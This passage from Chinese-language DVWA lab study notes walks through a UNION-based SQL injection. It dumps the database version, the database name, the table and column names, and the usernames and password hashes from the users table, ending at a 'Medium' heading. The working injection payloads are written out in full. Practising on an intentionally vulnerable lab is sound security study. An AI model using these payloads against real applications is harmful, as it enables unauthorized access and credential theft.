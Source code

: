 通过二分法判断，最后得出查询的字段有两个。

接下来我们就可以通过联合查询来对这两个位置进行注入。

```mysql
# 查询数据库版本
1' union select 1,version();#
```

<img src="DVWA学习笔记/image-20200211193839853.png" alt="image-20200211193839853" style="zoom:50%;" />

```mysql
# 查询数据库名
1' union select 1,database();#
```

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200213155655.png" style="zoom:50%;" />

```mysql
# 查询dvwa数据库的表名称
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa';#
```

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200213155831.png" style="zoom:50%;" />

```mysql
# 查询表users的列
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users';#
```

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200213155944.png" style="zoom:50%;" />

```mysql
# 查询user、password的内容
1' union select user,password from users;#
```

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200213160438.png" style="zoom:50%;" />

## Medium
